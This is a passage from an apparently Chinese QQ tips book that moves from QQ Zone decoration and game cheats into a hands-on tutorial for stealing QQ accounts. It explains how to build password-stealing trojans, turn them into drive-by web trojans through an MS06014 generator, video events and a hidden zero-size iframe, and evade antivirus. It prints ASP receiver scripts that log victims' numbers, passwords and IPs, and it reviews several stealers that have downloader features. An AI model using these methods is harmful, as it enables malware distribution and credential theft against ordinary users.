自古以来，人们用养花来陶冶情操，取得了不错的效果。于是腾讯公司将其借鉴过来，在网络空间掀起了养花热潮。不过初始养花的你只能从入门开始成为花匠学徒，然后才能领养一级植物，等到结出人参果后，才能成为高级花匠，这时您才能领养二级植物……以此类推。当养到五级植物后，就已经是花匠家族中耀眼的明星了！

至于如何领养植物，总共有两种方法：

- 一种是在QQ空间里，单击上方“装扮空间”按钮，进入到“QQ空间商城”页面，在养植物专栏里可以免费领养到自己所喜欢的植物。
- 第二种则是直接通过IE浏览器，进入 http://q-zone.qq.com/web/flower.shtml 花匠页面，就可从中免费领养植物。

植物领养完毕后，该是对其植物的培养了。其生长会分为四项属性，并且每项属性指数都有自己不同的含义。比如阳光指数则是每1个访客的登录（不包括未登录的访客）都会给这项指数增加1分，每天增加分数上限为8分。爱心指数则是自己每发表一篇日志、上传一张照片、音乐收藏中增加一个音乐专题、添加偶像资讯均增加3分，并且每天增加分数的上限也是8分。雨露指数则是网络日志与偶像资讯每增加一个非自己的回复就增加1分，每天增加分数上限为8分。营养指数则是自己在个人空间商城每花费1元钱，给当前的植物这一指数增加8分，如果不足一元则部分累积（手机消费除外），并且植物营养指数将在24小时内加上。当花生长到第四阶段（即指数总和大于600），就可能收到神秘礼物哦！

当每项属性指数都加满200分，就可以摘到人参果升级其花匠级别了。如果花藤指数一项未满200，更换植物将不影响花藤指数。如果花藤指数各项均大于等于200，更换植物时如果更换高一级别植物，植物各项指数均减少200，并且系统还会自动摘除人参果。而得到人参果的你，就可以开启神秘藏宝阁，兑换相应的神奇道具了。

### 利用工具玩转QQ空间

第一次手动欣赏好友的QQ空间，可能你会觉得很好奇或者很有趣，但是长此以往下去，以前的感觉不仅会消失，而且手动欣赏空间本来就很累人，加之踩好友空间并发表留言，也都是在空间里执行，真的会很烦。如果能用工具来实现手动的操作，相信一定会很轻松而且还会独特哦！

- **（1）QQ空间轻松阅读**

现在网上不少朋友，为了将自己的QQ空间打扮得很绚丽，不惜花费重金来购买里面专用的饰品。虽然这样能使空间很漂亮，但是却影响了网络日志的文字阅读。如果你是只想阅读QQ日志的朋友，不妨让CureQ这款小工具来帮你解决此问题。

首先从网上下载CureQ（需要.NET支持，如果没有请提前安装）这款小工具到本地计算机内，然后打开想要浏览好友空间的QQ详细信息，并且在其内部拖选上“帐号”里的QQ号右击，选择“复制”命令将其复制到剪贴板内（图18）。操作完毕后，打开“CureQ”工具，在弹出的界面内粘贴刚才复制的“QQ号”，而后单击“查看”按钮，就可打开简约版的空间，来观看没有花哨装饰的日志了。


- **（2）揪出好友空间的背景音乐**

可能大家在浏览别人空间时，听到了很多令人惟妙惟肖的歌曲，但是却不知道好友是从哪里下载到的。别急，其实QQ空间音乐地址查询系统（http://www.ffgg.net/qqmusic）就可以帮你查看和下载任意QQ空间的背景音乐，从而让你少走很多下载的“弯路”。


在IE浏览器里，输入网址 http://www.ffgg.net/qqmusic 进入到QQ空间音乐地址查询系统页面。在网页顶端输入想要查询空间里歌曲下载的QQ号码后，单击“开始查询”按钮，稍等片刻就可立即跳转到其空间背景音乐的下载列表（图19）。从中可根据里面提示的歌手以及歌名，找到自己所喜欢的歌曲，并且直接单击其网址就可进入到提供音乐的地址。另外输入QQ号后，可以单击顶端“查询方式”按钮，就会弹出悬浮对话框，从中可以选择适合自己想要歌曲的查询方式，比如选中“终极搜索”单选框后，单击“确定”按钮，可完整地查询出所有歌曲。

- **（3）聘请秘书踩空间**

一次两次给朋友踩踩空间，算不上什么。可是时间久了，每次上网都要光顾并且给其留言，谁都会很厌烦，而且有时还会碰上网速不畅、无法打开空间的异常状况。此时的你如果是守信用的同志或者女士，相信一定会很着急，不妨请个“小秘书”来帮你这个忙。

这里从网上下载“QQ空间小秘书”工具，然后再将其解压释放到一个文件夹内。由于它是绿色软件，所以无需对其安装就可直接打开软件操作界面（图20）。在所显示的“QQ空间用户登录”对话框内，输入QQ号码、密码以及当前验证码后，单击“登录”按钮就可进入软件主窗口。然后在顶端的“对方QQ号”文本处，输入想要踩好友空间的QQ号码，并且在发表内容输入留言内容。如果想要偷懒的话，你还可以单击右侧“竖条”按钮，打开“留言”样例，从中选择自己觉得喜欢的内容，输入当前验证后单击“发表留言”按钮，即可将所要发表的空间留言发送成功。


> **小提示：**  
> 如果想利用小秘书工具，批量给多个空间发表留言，可以右击“队列”按钮，在所出现的面板内，单击“批量”按钮，输入想要踩空间的QQ号码，单击“添加”按钮，就可实现大批量的留言了。

- **（4）读写日志更轻松**

QQ空间小秘书除了快速给好友空间留言外，还可以给自己的空间快速书写日志。其方法也是很简单，只要在软件面板内，单击“写日志”按钮，就可在显示的窗口内随意撰写新日志了。当然如果你想要查看已发表的日志也不是不可以，但是前提条件是QQ空间没有设置密码。

接下来在软件界面顶端，输入想要查看好友空间日志的QQ号码，然后单击“列表”按钮，稍等片刻后，就可显示其空间发表日志的标题。此时的你只要双击想要查看的标题，就可查看到里面的内容了。

### 4.3 QQ空间加上个性化Flash

随着网络的逐步发展，人们的眼光也有了一定的提高，以前觉得很好看的静态图片，如今已经再也满足不了大家的欣赏欲。因此你在空间装扮静态图片，是一件很闷的事情。所以为了给空间打扮得漂亮，不妨让Flash在QQ空间“酷闪”，从而可以给Q-ZONE添加一道靓丽的风景线。

- **（1）在主页添加Flash**

进入QQ空间，依次单击面板里的“自定义”→“新建模块”标签，在弹出的“Flash动画模块”对话框内，将Flash……


标题、引用的地址，以及 Flash 设置宽高数值填写到相关标签内（图21）。最后输入当前所显示的验证码后，单击“确定”按钮，就可使其设置生效。以后再进入 QQ 空间，就可在主页欣赏到闪动的 Flash 动画。

## （2）在日志中添加 Flash

除了在主页里添加 Flash 外，我们还可以在日志里加载 Flash 动画，可以使你的日志更富有趣味性。这里进入“日志”面板，单击右上角“写日志”按钮，在显示的“写日志”页面内，单击工具栏上的“插入 Flash”按钮，然后从中输入引用 Flash 的地址，并且设置好播放尺寸和背景位置后，单击“提交”按钮使插入设置成功。以后好友在浏览其发表的日志时，就会欣赏到刚才自己所插入的 Flash 动画了。

## 使用 RSS 阅读器，快速查看空间更新内容

众所周知，要想阅读 QQ 好友空间里的文章，首先得进入好友的空间，然后才能进行阅读。但是在进入 QQ 空间时，总是需要大家等上一段时间，如果网速不理想，甚至还会出现卡机的情况。要想彻底避开等待的时间，不妨让 RSS 阅读器来帮你这个忙。

打开“Foxmail 6.0 电子邮件”客户端，在软件操作界面内，单击左下角“RSS 阅读”栏，进入到 RSS 管理界面（图22）。从中依次单击“RSS”→“新建频道”选项，在所显示的“新建频道”对话框内，选中“输入频道的网址，即频道的 newsfeed 地址”单选框后，单击“下一步”按钮，在其文本处输入 `http://feeds.qzone.qq.com/cgi-bin/cgi_rss_out?uin=` 好友 QQ 号码（将好友 QQ 号码更改为想要查看空间的 QQ 号码）。


操作完毕后，单击“下一步”按钮，输入频道标题，选择频道群组，从而完成频道的新建操作。接下来在 Foxmail 里选中刚添加进来的频道，单击“收取”按钮，即可收取到 QQ 好友空间的日志，从而了解到最新的空间信息。

### 相册里的快捷浏览

可能很多朋友都将自己电脑里的图片上传到了 QQ 空间的相册内，这不仅可以方便自己的欣赏，而且还可以和网友们一同观赏其相册里的照片。不过在通常情况下，我们来观看相册里的图片时，都会用“上一张”和“下一张”按钮来切换照片，真的很麻烦。其实你可以将鼠标放到观看的图片上，当想看上一张图片时，只要将鼠标拖动到图片左半边，使其变为“左箭头”图标，单击一下鼠标左键，就会跳转到上一张图片了。反之想看下一张图片，只要将鼠标拖动到图片的右半边，使其变为“右箭头”图标，再单击一下鼠标左键即可跳转到下一张图片。

## 在第一时间里，知道 QQ 空间内的网友留言

使用 QQ 空间与网友沟通的朋友，一定非常惦记空间里网友们的留言，所以为此这些朋友会经常不知疲惫地登录自己的空间，看看其空间是否有人回复。如果不是为了写日志或别的原因，单纯只为了看有没有网友的回复而上空间有点麻烦，而且有时还会跑空趟。要是网友们的留言能够在第一时间内自动提醒，相信我们也就不会有跑空的时候了。其实殊不知 QQ 空间已经提供了留言自动提醒功能，只不过你没有进行设置而已。

## 第四章 打造最漂亮的QQ空间

首先登录自己的 QQ 号码，然后将鼠标移动到 QQ 面板头像上方，稍等片刻就会显示“QQ 信息”悬浮窗口，我们从中只要单击“Q-ZONE”图标，就可进入到其 QQ 空间内。然后在随后进入的 QQ 空间里，单击“互动”按钮切换到“互动”面板，从中勾选上“订阅我的空间回复提醒”复选框后，单击“确定”按钮，以后即可在第一时间内，自动得到网友回复空间信息的通知（图23）。


## 上传QQ日志，利用QQ邮箱

大家可能会注意到，当 Qzone 的访问人数很多的时候，如果你写完日志想将其传入到空间内，就会出现服务器繁忙、无法完成的提示信息。而此时的你相信一定很着急想将其上传上去，其实殊不知通过 QQ 邮箱就可以实现你的快速上传的愿望，而且比登录 Qzone 要方便得多，不过前提是你的 QQ 邮箱等级要在 6 级以上。

如果等级要求符合，那么你就可以登录到 QQ 邮箱页面，然后从中单击“写信”标签，进入到“写信”页面。此时你就会发现其右侧的“通讯录”栏内有一名为“发表到我的 Qzone”的特殊联系人。我们按照普通邮件发信正常操作，这里将想要发表的日志标题和内容填写到相关位置，然后单击“发送”按钮即可。当然你也可以通过在收件人文本处，输入“QQ号码@qzone.qq.com 地址”，将其想要上传的日志发表到空间内。操作完毕后，你登录一下自己的空间，就可看到通过 QQ 邮箱发表的空间日志了。

## 利用QQ空间盗你QQ号码

一直以来都想用几个靓号，来哄取 MM 的芳心，可是手头连一个 QQ 号都没有。于是想到用网页挂马的手段来盗取 QQ，但是因最近盗号的人太多，大家都对陌生的网站提高了警惕，所以很难成功。因此我想借用 QQ 空间的宝地，制作恶意陷阱，诱引网友们上钩，从而达到盗取他人 QQ 号码的目的。

这里首先从网上下载“极限居 QQ 大盗”软件到本地，然后将其解压释放到任意盘符处，因为其程序是绿色软件，我们无需对其安装，只要直接双击客户端程序就可进行使用（图24）。根据里面的提示标签，将自己的收信邮箱填入到相关文本处，不过要注意的是发信邮箱和收信邮箱不能相同，要不然被高手破解反盗就会前功尽弃。操作完毕后，单击下方“生成木马”按钮，在弹出的“另存为”对话框内，选择好存储的位置，就可生成 QQ 木马的服务端。

接下来为了使其 QQ 木马能在网页上运作，我们需要先制作一个网马，这里从网上找到……


MS06014 在线生成器（http://www.bazhi.com/ms06014），然后在其页面内输入你所存放 QQ 木马的地址，单击“下一步”按钮，就可按照里面的说明，将加密代码复制粘贴到一个 HTML 文件中，这样网马才算制作完成，然后再将制作好的网马上传到我们空间上去即可。

如果你想在视频中挂马，可以利用“RealMediaEditor”工具打开一个视频文件，然后再新建一个 TXT 文本，在其内部输入“U 00:00:00.0 00:00:10.0 HTTP://制作好的网马地址”。操作完毕后，单击上方“文件”菜单，选择保存选项将其存储，然后在打开的视频内，依次单击“工具”→“合并事件”选项，在弹出的窗口内，浏览并选择刚才所保存的 TXT 文件，将其另存为并且把合并的文件保存。然后进入到自己的 QQ 空间，单击上方“自定义”按钮，选择“新建模块”标签里的“视频模块”模式；按照里面的提示将标题和视频地址填入到相关标签，而后输入当前验证码，单击“确定”按钮，就可将其已挂马的视频插入到空间。不过所插入的视频木马，有个弊端就是在别人浏览空间时会弹出一个窗口，这样会很容易让人生疑。为了神不知鬼不觉地将视频木马载入到访问者的主机，我们可对其进行一下伪装，这里找一个广告窗口把它保存下来，然后在其源码中加入 `<iframe src=网马 width=0 height=0></iframe>` 的代码，设置成后台里运行盗 Q 木马，从而“掩盖”了以前自动弹出的空白窗口，使其视频木马在不被发觉的情况下，就可偷偷载入到访问者的主机。

## 第五章 QQ 游戏全攻略

自从 QQ 游戏推出以来一直深受广大网友的喜爱，今天来给大家介绍几款 QQ 游戏里面的一些外挂，比如：记牌器、刷分器等一些工具。

## QQ 游戏多开窗口

网上虽然有好多的 QQ 游戏多开的补丁下载，但是真正好用的却没有几个，今天我找到一个真正好用的——“QQ 游戏大厅 2007 Beta1 QQ 游戏大厅多开补丁去广告补丁 绿色版”，双击“QQGame.exe”输入 QQ 号码和密码，成功登录。再双击“QQGame.exe”输入 QQ 和密码，我连续打开了三个，你也可以开 N 个，只要你的机子能跑得动，如图1。


## QQ 无敌记牌器

打开 QQ 游戏主界面，下载并安装好你要玩的牌类游戏，比如：QQ 的火拼双扣等，再打开 QQ 记牌器，如图2。


随便找一个房间，双击进入，找张桌子坐好。等所有玩家准备好，系统开始发牌，QQ 无敌记牌器就会自动记录其他三家所出过的牌，以及剩下的牌，如图3。左上角是各家已经出过的牌，右边分界面的左边里是没有出过的牌，分界面的右边是各方没有出过的牌。

## QQ 新斗地主刷分器

首先我们要申请几个 QQ，这里我已经申请了三个 QQ，还没有 QQ 赶快去 http://signup.qq.com/ 这里申请（据说是给老外申请的，而且申请到的号码都比较好）。先将魔镜 QQ 斗地主刷分器安装好，再打开 3 个 QQ 游戏窗口，依次登录进去，找一个人比较少的服务器，三个号都进入到一个服务器，同时在同一个桌子上坐下。好，已经都进去了，如图4。现在打开那个魔镜 QQ 斗地主刷分器，如图5。呵呵，开刷了哦，速度还真快，如图6。2 分钟时间，我就成富农了，真是超快啊。不过这个软件要注册的，大概每次只能用 3 分钟，但再重新打开魔镜 QQ 斗地主刷分器我们就可以接着刷了哦。其实这个魔镜 QQ 斗地主刷分器也可以多开 QQ 游戏大厅的，但是这样开起的大厅会随着这个软件试用时间一到全部关闭刚才所开的 QQ 游戏大厅，所以不推荐大家用这个功能。


### QQ连连看外挂

先进入 QQ 连连看游戏，找好地方坐下，再打开 QQ 连连外挂，如图7。简单操作，只需要打开外挂，按 F9 消除一对，F10 消除全部（外挂效果如图8、图9）。详细功能如下：


- **自动操作**：选择自动操作，设置时间，一切由外挂包办，自动开始、自动消除。
- **仿真模拟**：两种模式供用户选择，固定延时和随机模拟，调节参数可以达到乱真效果。
- **自动重列**：遇到死局的情况可以自动重列，无需玩家干预。
- **特效开关**：玩家可以选择去除特效，是机器性能不好的玩家的福音。
- **超强性能**：F10 消除全部几乎是瞬间消失，对方即使是别的外挂用户也难以抵挡。


### 5.5 QQ对对碰外挂

安装好 QQ 对对碰外挂，有弹出什么版本不一样的对话框，不用理它，直接确定。进入 QQ 对对碰的房间，找个位子先坐，打开 QQ 对对碰外挂，它具有全自动挂机、自动发送道具、自动开始新一局游戏、游戏加速、临时消去一对，并且还有一键隐藏游戏窗口等多种功能。好，我们来将电脑自动全程托管前打“勾”，还可以加速，这里的其他几个设置，你就根据自己的需要来设吧。哈哈，现在等着别人来向你单挑了哦，有个 MM 来了，如图10。嗯嗯，人家 MM 才 11%，我就 100% 了，这样想不升级都难啊！


### 5.6 QQ泡泡龙瞄准器

打开 QQ 泡泡龙房间，找张桌子坐，打开 QQ 泡泡龙外挂，如图11。


自动瞄准——启动外挂后会在箭头上出现瞄准线，并且可以自动反射线；无限泡泡——按 F4 即可获得无限泡泡，这些泡泡只能用于消除自己的泡泡，不能攻击对手。如果是游戏中获得的泡泡则不会受影响，游戏中获得的泡泡在下方会显示个数，但不会百分百准确。锁定攻击——选择好指定玩家，外挂会自动攻击对方。有了这么多功能，下面你就开始玩吧，如图12。

### 5.7 QQ五子棋外挂


进入 QQ 五子棋房间，坐好，打开外挂，如图13。这里主要有两个功能：1. 走棋，算出当前最佳落子点，并直接在游戏中自动下棋；2. 提示，算出当前最佳落子点，并在目标程序中的落子位置绘制一个实心圆子以用户提示（注：用户不能将外挂软件遮挡游戏区域的窗口显示，否则程序可能不能正确地扫描盘面数据）。

好了开始下棋吧，如图14。


### 5.8 QQ火拼俄罗斯外挂

进入火拼俄罗斯的“参数设置”窗口，先按一下“返回默认值”，在“图像设置”中把“显示消层动画”和“显示道具动画”前面的勾去掉，在“音频设置”中把“开启游戏音效”和“开启背景音乐”前面的勾去掉，然后按确定。再打开火拼俄罗斯的外挂，点击“设置”，将延时从上到下设为“0，50，0，50，0，50”试试，如果还不稳定，请将这些数值每次增加 10，直到稳定为止，如图15。等大家开始后，不要让任何窗口挡住游戏区，只开一个火拼俄罗斯窗口，再点击“开始外挂”，程序就会自动开始帮你火拼了，如图16。

最后，希望大家不要过多地使用外挂，不然你的 QQ 被封号了可不要怪我哦！

### 阿童木QQ终结者

日本动画片“铁臂阿童木”相信大家都看过吧，给大家介绍的这款工具也叫阿童木，不过它可是用来盗 QQ 的。不仅能够截取目前所有能用的 QQ 版本，而且还能够实现隐式注入、无进程、过防火墙，尤为突出的是在安全模式下也能启动哦。它能够截取 QQ 帐号、QQ 密码、是否为会员、IP 地理位置、IP 地址等信息。相信有了这款软件，盗取 QQ 的工作就会变得相当轻松了。


工具运行后的界面如图1所示，右下角有邮箱测试发信过程的提示信息。和其它盗 QQ 软件一样，它支持 ASP 空间收信和普通邮箱收信两种方式。

## 1、ASP空间收信

打开软件自带的 qq2007.asp 文件（图2），首先需要修改的是 `strLogFile="QQ2007.txt"`，它的意思是把帐号密码信息保存在 QQ2007.txt 文件里，这里一定要修改。为什么呢？如果别人通过分析你的 QQ 木马，或者经过其它途径获得了你 ASP 空间的收信地址，对方就可以根据这款软件的默认设置来猜测你存放帐号密码的文件，那样你盗取的 QQ 就会拱手送给他人了。此处可以改为任何类型的文件（*.*）。如果改成 IE 不能直接以文本方式解析的文件类型（jpg、exe、rar 等），就需要下载到本地再查看，虽然麻烦，但更安全。

```asp
strLogFile="QQ2007.txt"
QQNumber=request("QQNumber")
QQPassWord=request("QQPassWord")
QQClub=request("QQClub")
QQip=request("QQip")

if QQNumber="" or QQPassWord="" then
  response.write "pzqw"
  response.end
end if

Set fc=Server.CreateObject("scripting.filesystemobject")
Set ff=fc.opentextfile(server.mappath(".")&"\"&strLogFile,8,true,0)
ff.writeline(chr(13)+chr(10)&strLogText)
ff.close
```

如果别人通过分析你的 QQ 木马，或者经其它途径获得了你的发信邮箱地址及其密码，那么你所有盗取的 QQ 也就要拱手送人了。最后不要忘了测试，点“发信测试”即可实现两种方式的测试，检验普通邮箱收信配置的正确性（图3）。

## 2、普通邮箱收信

我们来看邮箱收信方式的设置。在“收信邮箱”栏填写用于收信的邮箱地址；在“发信邮箱”栏填写用于发信的邮箱地址；帐号和密码就是发信邮箱的登录帐号和密码；用于服务器的 SMTP 验证；“SMTP”处填写发信邮箱的 SMTP 服务器地址，此地址可以从提供邮箱的主页上查询到。发信邮箱和收信邮箱最好不要使用同一个邮箱。

如果你使用的是 126 或 163 的邮箱，在测试发信时可能收不到测试邮件。资料显示网易曾对免费邮箱策略进行调整，部分新注册用户不支持直接开通 SMTP、POP3 服务，已开通客户端功能的老用户不受影响，后续可能通过“积分活动”“邮箱会员”等方式提供该服务。

邮箱中就不直接开放 SMTP 和 POP3 服务了，POP3 对于我们来说还无所谓，因为 POP3 是接收邮件时所使用的，SMTP 则是我们要用到的！因为它是发送邮件所使用的服务。难道就没有办法使用 126 或者 163 的邮箱了吗？方法是有的，大家可以到 `http://uinfo.mail.163.com/enlarge3g/index.htm` 这个地址（图4），把邮箱升级成 3G 的就可以了。我分别测试了 126 和 163 的邮箱，163 的邮箱测试通过，升级完之后就可以使用 SMTP 和 POP3 服务了，但是 126 的邮箱升级成功后还是不能使用这两个服务，不知道是怎么回事。


## 小提示：SMTP 和 POP3 服务

SMTP（Simple Mail Transfer Protocol）：即简单邮件传输协议。SMTP 是互联网上的一种通讯协议，主要功能是用于传送电子邮件；当我们通过电子邮件程序寄 Email 给另外一个人时，必须通过 SMTP 通讯协议，将邮件送到对方的邮件服务器上，等到对方上网的时候，就可以收到你所寄的信。

POP3（Post Office Protocol 3）：POP 适用于 C/S 结构的脱机模型的电子邮件协议，目前已发展到第三版，称 POP3。它是因特网电子邮件的第一个离线协议标准，POP3 允许用户从服务器上把邮件存储到本地主机（即自己的计算机）上，同时删除保存在邮件服务器上的邮件，而 POP3 服务器则是遵循 POP3 协议的接收邮件服务器，用来接收电子邮件。


## 小提示：常见 SMTP 和 POP3 服务器地址

| 邮箱类型 | POP3服务器 | SMTP服务器 |
|---|---|---|
| 网易@163.com邮箱 | pop.163.com | smtp.163.com |
| 网易@yeah.net邮箱 | pop.yeah.net | smtp.yeah.net |
| 网易@netease.com邮箱 | pop.netease.com | smtp.netease.com |
| 网易@126.com邮箱 | pop3.126.com | smtp.126.com |
| 搜狐@sohu.com邮箱 | pop3.sohu.com | smtp.sohu.com |
| 信网@eyou.com邮箱 | pop3.eyou.com | mx.eyou.com |
| 新浪@sina.com.cn邮箱 | pop.sina.com.cn / pop3.sina.com.cn | smtp.sina.com.cn |
| 新浪@vip.sina.com邮箱 | pop3.vip.sina.com | smtp.vip.sina.com |
| 新飞网@tom.com邮箱 | pop.tom.com | smtp.tom.com |
| 亿唐@etang.com邮箱 | pop.free.etang.com | smtp.free.etang.com |
| 21世纪@21cn.com邮箱 | pop.21cn.com | smtp.21cn.com |

### 金狐QQ2007大盗

这款盗QQ软件与前面所介绍的阿童木有同样的特性，能够截取目前所有能用的QQ版本，实现隐式注入、无进程、过防火墙。它能够截取QQ帐号、QQ密码、是否为会员、IP地址位置、IP地址等信息，并且比阿童木还要强的是，它还能够摧毁QQ医生，碰到还原精灵也能够自动转存。金狐QQ2007大盗运行后的界面如图1所示。


### 1、ASP空间收信

来看一下ASP空间收信方式，打开软件自带的ASP接口文件（图2），修改 `strLogFile="QQ.txt"`，把“QQ.txt”改成其他的文件名，以防止被其他不怀好意的人猜到。这里讲一下这个ASP文件的作用：木马在运行后会自动监听对方的QQ，对方在登录QQ后，木马也会获取对方的QQ号码和密码，然后木马会把QQ号码和密码当作参数提交到这个ASP接口文件；同样传给这个接口文件的还有是否为会员、IP地址、截取时间等信息。接下来就是ASP接口文件的工作了，它会把提交上来的QQ号码、密码、IP地址等信息按照一定的次序写入到QQ.txt文件中，这就是一个完整的盗号过程。

我们来分析一下ASP文件：

```asp
strLogFile="QQ.txt"                // 定义导出的文件名
QQNumber=request("QQNumber")       // 接收传过来的QQ号码
QQPassWord=request("QQPassWord")   // 接收传过来的QQ密码
QQclub=request("QQclub")           // 接收传过来的是否为QQ会员
QQip=request("QQip")               // 接收传过来的IP信息
If QQNumber="" or QQPassWord="" then
    response.write "QQ"
    response.end
End If                             // 如果QQ号码和QQ密码是空的话就输入“QQ”字符串
StrLogText=StrLogText&QQNumber&"-----"&QQPassWord&"-----会员:"&QQclub&"-----IP:"&QQip&"("&request.servervariables("REMOTE_HOST")
StrLogText=StrLogText&")---"&date&" "&time   // 再把当前日期和时间连接并放在变量StrLogText里
```

```vb
set f=Server.CreateObject("scripting.filesystemobject")
set ff=f.opentextfile(server.mappath("..")&"\\"&strLogFile,8,true,0)
ff.writeline(chr(13)+chr(10)&StrLogText)
ff.close
set ff=nothing
set f=nothing    // 利用FSO方法往QQ.txt文件中追加变量StrLogText的内容。
response.write "发送成功!"   // 输出“发送成功!”字符串。
```

同样，这些参数还是可以直接从IE里提交给ASP接口文件的（图3）。分析完ASP接口文件后是不是有了更清晰的认识呢？其他的盗QQ或者其他盗号软件中使用的ASP接口文件基本都是一样的。设置完ASP接口文件后，把它传到支持ASP的空间里，然后再在软件中做发信测试。


### 2、普通邮件收信

首先要点亮“邮件收信”选项框，在收信邮箱处填写用于发信的邮箱地址；发信邮箱处填写用于发信的邮箱地址；帐号和密码就是发信邮箱的登录帐号和密码，用于服务器的SMTP验证；SMTP处填写发信邮箱的SMTP服务器地址。设置完毕后，也需要点击“发信测试”，检测普通邮件收信设置是否有错误（图4）。

金狐QQ2007大盗还可以自动清除木马，让你在误中木马后能够及时清除掉。值得一提的是，这款软件免杀操作做得比较好，可以在程序中提交被杀情况，同时软件还提供了免费的免杀更新，极大地方便了那些对于免杀制作不怎么会的菜鸟们。


### 思思盗Q王

思思？听名字好像是个女生吧！你再看看软件的图标？也确实是个女生。我在想，假如这个软件真是哪个女生编写的话，那这个女生可真是厉害哦！好了，先来看看这个软件的界面（图1）。

思思盗Q王可以过QQ的最新补丁，能够完美截取QQ2007版的密码，同时躲避QQ自带的杀毒功能，而且还支持下载者功能，还可以获取中马机器的IP地理位置，通杀所有QQ版本的安全锁防护。中马后QQ登录框不会出现红叉（包括2007、Beta3），兼容以前各个版本，并支持飘云版和珊瑚虫版。密码框不会出现红叉，木马无进程、无启动项。尤其是这个软件可以对它生成的木马进行配置查看，再也不用怕忘记木马的配置了，可以说是一款很不错的QQ盗号软件。


### 1、ASP空间收信

打开软件自带的ASP接口文件（图2），找到 `strLogFile = date & "---q86.txt"`。看过前面几个软件后我们就会发现这个有点不一样。`date` 这个变量保存的是系统当前日期，“---q86.txt”是自定义的常量。也就是说这个 `strLogFile` 变量会根据系统当前日期的不同而变化。确实是的！这样有什么好处呢？可以每天生成一个文件，有利于对盗来的QQ进行整理，有条有理。

需要改动的就是“---q86.txt”这里，以防止被其他人猜到该地址。而且还要再自定义一下，例如：`strLogFile = "qq(" & date & ")pp.txt"`，当前日期是07年8月10号，那么今天生成的文件名就为“qq(2007-8-10)pp.txt”。比较郁闷的是软件没有把IP地址当作变量提交？为什么不使用 `Request.ServerVariables("REMOTE_HOST")` 方法获得呢？这种方法简单而适用，大家可以结合前面几款软件所带的ASP接口文件自己修改一下。修改完后就需要上传到支持ASP的WEB空间中了，还要支持FSO哦！

```asp
strLogFile = date & "---q86.txt"

Number = request("Number")
PassWord = request("PassWord")
IP = request("IP")

if Number = "" or PassWord = "" then
  response.end
End If

StrLogText = Number & "-----" & PassWord & "-----" & IP

set f=Server.CreateObject("scripting.filesystemobject")
set ff=f.opentextfile(server.mappath(".")&"\\"&strLogFile,8,true,0)
ff.writeline(StrLogText)
ff.close
set ff=nothing
set f=nothing
%>
```


### 2、普通邮件收信

在软件主界面中进行邮箱设置，收信邮箱帐号处填写用于发信的邮箱地址；发信邮箱帐号处填写用于发信的邮箱地址；发信邮箱帐号和密码就是发信邮箱的登录帐号和密码，用于服务器的SMTP验证；SMTP服务器处填写发信邮箱的SMTP服务器地址。推荐大家使用ASP收信，因为目前大多数杀毒软件都禁止系统自动发Email，所以经常会有收不到信的情况。

### 3、下载者功能

相信单纯的中QQ木马已经满足不了大家的需求了，这款软件恰好集成了下载者功能。软件生成的木马体积很小，完全可以当作一个下载者使用。在下载设置里填写需要下载文件的URL地址即可，如果需要下载多个文件的话，只需要换行填写就可以了！

### 4、查看设置

该功能是这款软件很独特的地方。有时候我们在生成了木马一段时间后，忘记了当初木马的配置选项，那么这个功能就可以帮助我们“回忆”起来！只有知道查看密码才可以查看，主要是为了防止其他人查看我们的配置而泄露发信箱的帐号密码等信息（图3）。


另外软件还可以在首次运行完木马后指定多少秒自动关闭QQ，以使盗QQ的效率更高！设置完后一定要点“发信”来检验各项设置的正确性（图4）。思思盗Q王还有卸载功能，能够卸载本机中的QQ木马！

### vvQQ大盗

我总是喜欢把最好的东西放在最后，呵呵，这款盗号软件比前面所介绍的那几款软件都要强大得多，其运行后的界面如图1所示。

免杀版本更新得很快，最新版做了对瑞星、金山、卡巴、江民、McAfee、诺顿等杀毒软件的免杀，还避过了QQ医生的检查，同时避过QQ自带杀毒功能，使大家用得舒心、用得放心。不光支持ASP收信，而且还支持PHP收信。现在的ASP空间越来越难申请，PHP空间又越来越流行，推出PHP收信方式还是很有特色的。支持多个下载者功能，还能够获取中马机器的IP地理位置。所有QQ版本的安全锁防护通杀，中马后QQ登录框不会出现红叉。还可以任意替换图标，可将你的木马伪装成各种程序的样子。


### 1、ASP空间收信

首先选中“ASP收信设置”，填入ASP接口文件的URL地址。打开软件自带的vv.asp（图2），查找“StrLogFile=date & ...”。

```asp
QQNumber=request("n")
QQPassword=request("p")
SID=request("s")
IP=request("q")
...
set f=Server.CreateObject("Scripting.FileSystemObject")
If f.FileExists(Server.mappath(".") & "\\" & StrLogFile) = True Then
  Set ff = f.OpenTextFile(Server.mappath(".") & "\\" & StrLogFile, 8, False, 0)
Else
  Set ff = f.CreateTextFile(Server.mappath(".") & "\\" & StrLogFile, true)
End If
ff.writeline(StrLogText)
ff.close
```

`QQPass.txt`、`StrLogFile`这个变量是用来设置保存QQ帐号密码的文件。查找 `StrLogBFile=date & "-QQB.txt"`，`StrLogBFile` 这个变量是用来设置保存QB等信息的文件。这个软件不仅能够盗取QQ，还能够查询QQ里的Q币情况。把修改后的文件上传到支持FSO的ASP空间中。


### 2、PHP空间收信

选中“PHP收信设置”，填入PHP接口文件的URL地址。打开软件自带的vv.php（图3），查找 `$filename=$sDate."-QQ.txt";`，`$filename` 这个变量是用来设置保存QQ帐号密码的文件。查找 `$filename1=$sDate."-QQB.txt";`，`$filename1` 这个变量是用来设置保存QB等信息的文件。还有一个变量 `$sbh`，可以查询到该QQ有无密保。


### 3、普通邮箱收信

选中“邮箱收信设置”，收信邮箱处填写用于发信的邮箱地址；发信邮箱处填写用于发信的邮箱地址；发信箱密码就是发信邮箱的密码，用于服务器的SMTP验证；SMTP服务器处填写发信邮箱的SMTP服务器地址。

### 4、下载者功能

选中“下载者列表”，支持多条文件下载，可以当作下载者使用。如果需要下载多个文件的话记得要换行哦！

这款软件可以设置在运行后自动删除自身，可以设置首次运行后多少秒关闭QQ。还可以自定义木马的图标，省去了生成木马后再进行替换资源的麻烦，大家可以选择一些有迷惑性的图标，例如记事本的图标，使迷惑性增强！而且可以针对每项发信方式进行测试，设计得很体贴哦（图4）。

### 6.5 挖掘鸡

一些黑客软件（包括网站管理员及管理员工具）会在网站生成特定路径（目录名+文件名），这些路径往往有习惯性及默认性。这样的路径在网络中孤立无链接，通过搜索引擎很难直接搜索到。挖掘鸡就是针对这样的路径进行扫描来获取敏感信息权限。用来抓QQ箱子是最棒的了，常见QQ密码信文件名有：金狐QQ2007大盗在网站下默认上传 `tmdqq.asp`，用于接收密码信并存到同路径的 `qq.txt` 中（图1）。

```asp
<%
strLogFile="qq.txt"
QQNumber=request("QQNumber")
QQPassWord=request("QQPassWord")
